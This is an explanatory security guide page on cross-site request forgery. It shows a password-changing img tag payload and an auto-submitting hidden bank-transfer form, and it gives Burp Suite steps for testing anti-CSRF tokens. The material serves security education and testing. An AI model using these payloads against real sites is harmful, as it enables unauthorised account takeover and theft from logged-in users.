 # Cross-site request forgery

Cross-site request forgery \(CSRF\) is a fairly serious attack, usually involving malicious social engineering:

1. A user logs into an application \(e.g. a banking site\)
2. An attacker sends this user an email with a specially crafted URL, a hidden form, or an image with a malicious `src`
3. When executed \(e.g. the user clicks a link, loads a page or image\), the malicious payload makes a request to the application that the user is already logged into, leveraging the active session in the browser for authorization

An example of this exploit in action is a user's email address being changed so that an attacker can use an application's email-based password reset feature to grant themselves access.

## CSRF payloads

If the application can be updated using GET requests, the malicious payload could be embedded in an `img` tag:

```text
<img src="http://[host]/change-password.php?newPassword=hackerpassword">
```

The above GET request is a little contrived since a lot of application changes \(e.g. account updates\) happen when a user submits a form with POST data. But CSRF payloads can also be delivered using hidden web forms which automatically submit POST data when a user loads a specially crafted page sent by the attacker:

```text
<html>
  <head>
    <title>Malicious web form</title>
  </head>
  <body onload="document.evil_bank_form.submit()">
    <form action="http://bank.com/transfer" method="POST" name="evil_bank_form" style="display: none;" target="hidden_results">
      <input type="text" name="amount" value="5000" />
      <input type="text" name="to_account" value="12345" />
    </form>
     <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>
```

In the above example, when a user is tricked into loading this web page, the evil web form performs a bank transfer to the attacker's account, leveraging the user's active browser session with the bank. The form also has a `target` which displays the results in a hidden `iframe` so that the user does not notice the malicious request.

For testing purposes, [Burp Suite can automatically generate a proof-of-concept CSRF payload](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc), but you have to verify that there isn't a unique token in the test payload \(e.g. a form element with a random string\). There are a few ways to do this:

1. Run the payload twice to see if the server rejects it for being a duplicate or expired request
2. Remove or alter anything that looks like a token from the form elements or GET parameters and see if the payload still works
3. Replace the token with a string of the same length and see if the payload still works
4. Leave the token value blank and see if the payload still works

Generally speaking, if one of the above actions throws an error, the application has some anti-CSRF protections which limit exploitation. Sessions might also be set to expire quickly, making CSRF attacks less viable. 

## Further reading

* [What is cross-site request forgery?](https://www.acunetix.com/blog/articles/cross-site-request-forgery/) 
* [CodePath: cross-site request forgery](https://guides.codepath.com/websecurity/Cross-Site-Request-Forgery)
* [Using Burp to test for CSRF](https://support.portswigger.net/customer/portal/articles/1965674-using-burp-to-test-for-cross-site-request-forgery-csrf-)


